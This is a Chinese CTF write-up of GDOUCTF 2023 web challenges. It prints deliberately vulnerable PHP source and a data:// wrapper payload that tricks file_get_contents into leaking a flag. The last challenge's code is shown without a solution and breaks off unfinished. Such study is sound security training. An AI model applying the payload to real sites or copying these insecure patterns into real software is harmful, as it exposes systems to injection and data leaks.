 ##  [GDOUCTF 2023]hate eat snake  
游戏结束点取消即可继续计时，等60秒后按空格即可通关获得flag
##  [GDOUCTF 2023]泄露的伪装  
扫目录看到www.rar泄露，得到
![e565e080c1a4687753ce44baa9deb722.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1706266800675-1db80558-b77e-486e-93a2-b9fcd885004a.png#averageHue=%23f3f1f0&clientId=udf5974cd-463d-4&from=paste&height=120&id=u27749d68&originHeight=150&originWidth=133&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1603&status=done&style=none&taskId=u7674edda-9e61-4a66-9232-dff4cc9c0e8&title=&width=106.4)
看到
```
<?php
error_reporting(0);
if(isset($_GET['cxk'])){
    $cxk=$_GET['cxk'];
    if(file_get_contents($cxk)=="ctrl"){
        echo $flag;
    }else{
        echo "洗洗睡吧";
    }
}else{
    echo "nononoononoonono";
}
?> 
```
伪协议传参得到flag
payload：?cxk=data://text/plain,ctrl
##  [GDOUCTF 2023]受不了一点  
```
<?php
error_reporting(0);
header("Content-type:text/html;charset=utf-8");
if(isset($_POST['gdou'])&&isset($_POST['ctf'])){
    $b=$_POST['ctf'];
    $a=$_POST['gdou'];
    if($_POST['gdou']!=$_POST['ctf'] && md5($a)===md5($b)){
        if(isset($_COOKIE['cookie'])){
           if ($_COOKIE['cookie']=='j0k3r'){
               if(isset($_GET['aaa']) && isset($_GET['bbb'])){
                  $aaa=$_GET['aaa'];
                  $bbb=$_GET['bbb'];
                 if($aaa==114514 && $bbb==114514 && $aaa!=$bbb){
                   $give = 'cancanwordflag';
                   $get ='hacker!';
                   if(isset($_GET['flag']) && isset($_POST['flag'])){
                         die($give);
                    }
                   if($_POST['flag'] === 'flag' || $_GET['flag'] === 'flag'){
                       die($get);
                    }
                    foreach ($_POST as $key => $value) {
                        $$key = $value;
                   }
                    foreach ($_GET as $key => $value) {
                         $$key = $$value;
                    }
                   echo $flag;
            }else{
                  echo "洗洗睡吧";
                 }
    }else{
        echo "行不行啊细狗";
        }
  }
```